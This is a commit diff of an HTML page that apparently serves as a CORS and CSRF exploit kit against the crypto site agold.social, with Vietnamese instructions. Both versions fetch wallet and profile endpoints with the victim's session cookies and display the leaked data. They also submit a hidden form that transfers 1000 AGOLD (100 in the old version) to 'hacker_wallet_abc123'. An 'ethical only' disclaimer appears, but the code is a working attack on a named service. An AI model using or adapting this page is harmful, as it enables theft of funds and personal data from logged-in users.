

Before and after one commit to dauhuong68/test-html, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 102-800 px from the top of the page, without its empty margins (231-1047 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,73 +1,71 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>Agold.social - CORS & CSRF Exploit PoC</title>
+  <title>Agold.social - CORS + CSRF Full PoC</title>
   <style>
-    body { font-family: Arial; text-align: center; margin: 50px; }
-    button { padding: 10px 20px; margin: 10px; background: #d32f2f; color: white; border: none; cursor: pointer; }
-    button:hover { background: #b71c1c; }
-    pre { background: #f4f4f4; padding: 15px; border-radius: 8px; text-align: left; display: inline-block; max-width: 80%; }
+    body { font-family: Arial; text-align: center; margin: 20px; background: #f0f0f0; }
     h1 { color: #d32f2f; }
-    .warning { color: red; font-weight: bold; }
+    .test-btn { padding: 10px 20px; margin: 10px; background: #2196F3; color: white; border: none; border-radius: 5px; cursor: pointer; }
+    .csrf-btn { background: #f44336 !important; }
+    pre { background: #f4f4f4; padding: 15px; border-radius: 8px; text-align: left; display: inline-block; max-width: 80%; margin: 10px; }
+    .status-safe { color: green; }
+    .status-vuln { color: red; }
+    .hidden { display: none; }
   </style>
 </head>
 <body>
-  <h1 class="warning">Agold.social Exploit Demo (Ethical Testing ONLY)</h1>
-  <p><small>Đăng nhập <code>agold.social</code> ở tab khác trước khi test!</small></p>
+  <h1>🔥 Agold.social - CORS & CSRF Exploit Tester</h1>
+  <p><b>Hướng dẫn:</b> Mở <b>Tab 1</b>: Đăng nhập agold.social → <b>Tab 2</b>: Trang này → Click test</p>
 
-  <!-- CORS Tests -->
-  <h2>1. Test CORS (Leak Data)</h2>
-  <button onclick="testCORS('/user/wallet')">Test Wallet Balance</button>
-  <button onclick="testCORS('/user/wallet/transaction-history')">Test Transaction History</button>
+  <h2>🛡️ Test CORS (Lấy profile/wallet)</h2>
+  <button class="test-btn" onclick="testEndpoints()">Test All Endpoints</button>
   <pre id="corsResult">Click để test...</pre>
 
-  <!-- CSRF Tests -->
-  <h2>2. Test CSRF (Transfer Token)</h2>
-  <p class="warning">Nút dưới sẽ chuyển 100 AGOLD đến hacker_wallet nếu vuln!</p>
-  <button onclick="testCSRF()">EXPLOIT: Chuyển 100 AGOLD</button>
+  <h2>💥 Test CSRF (Chuyển tiền giả lập)</h2>
+  <p>Click để gửi form POST (nếu lỗ hổng CSRF → tiền bị chuyển!)</p>
+  <button class="test-btn csrf-btn" onclick="testCSRF()">Exploit CSRF: Chuyển 1000 AGOLD</button>
+  <form id="csrfForm" class="hidden" method="POST" action="https://gateway.agold.social/api/v1/transfer">
+    <input type="hidden" name="to" value="hacker_wallet_abc123">
+    <input type="hidden" name="amount" value="1000">
+  </form>
 
   <script>
-    // CORS Test Function
-    async function testCORS(endpoint) {
-      const url = `https://gateway.agold.social${endpoint}`;
-      const resultEl = document.getElementById('corsResult');
-      resultEl.textContent = `Testing ${url}...\n`;
+    const endpoints = [
+      '/api/v1/user/profile',
+      '/api/v1/wallet/balance',
+      '/api/v1/user/info',
+      '/api/user'
+    ];
 
-      try {
-        const res = await fetch(url, {
-          method: 'GET',
-          credentials: 'include'  // Gửi cookie session
-        });
-        resultEl.textContent += `Status: ${res.status}\n`;
-        resultEl.textContent += `CORS Headers: ${JSON.stringify([...res.headers.entries()])}`;
+    async function testEndpoints() {
+      const result = document.getElementById('corsResult');
+      result.textContent = 'Testing...\n\n';
 
-        if (res.ok) {
-          const data = await res.json();
-          resultEl.textContent += `\nSUCCESS! Data Leaked:\n${JSON.stringify(data, null, 2)}`;
-          alert('🚨 CORS VULN! Dữ liệu bị leak!');
+      for (let path of endpoints) {
+        try {
+          const res = await fetch(`https://gateway.agold.social${path}`, {
+            method: 'GET',
+            credentials: 'include'  // Gửi cookie nếu login
+          });
+          if (res.ok && res.headers.get('access-control-allow-origin')) {
+            const data = await res.text();
+            result.textContent += `✅ VULN: ${path}\nStatus: ${res.status}\nData: ${data.substring(0, 200)}...\n\n`;
+            result.className = 'status-vuln';
+          } else {
+            result.textContent += `🚫 SAFE: ${path} (CORS Blocked)\nStatus: ${res.status}\n\n`;
+          }
+        } catch (err) {
+          result.textContent += `🚫 SAFE: ${path} (Failed to fetch - CORS Blocked)\nError: ${err.message}\n\n`;
         }
-      } catch (err) {
-        resultEl.textContent += `Error: ${err.message}\n(CORS Blocked - An toàn!)`;
       }
     }
 
-    // CSRF Test Function
     function testCSRF() {
-      const form = document.createElement('form');
-      form.method = 'POST';
-      form.action = 'https://gateway.agold.social/admin/wallet/transfer';
-      form.innerHTML = `
-        <input type="hidden" name="to" value="hacker_wallet_123">
-        <input type="hidden" name="amount" value="100">
-        <input type="hidden" name="token" value="AGOLD">
-      `;
-      document.body.appendChild(form);
-      form.submit();
-      alert('CSRF Triggered! Check ví agold.social...');
+      alert('🚨 CSRF EXPLOIT: Đang gửi yêu cầu chuyển 1000 AGOLD đến hacker!');
+      document.getElementById('csrfForm').submit();
     }
   </script>
-
   <hr>
-  <p class="warning">Ethical only! Report vuln to agold.social if found.</p>
+  <p><small>PoC ethical only. Report nếu tìm thấy vuln!</small></p>
 </body>
 </html>
```
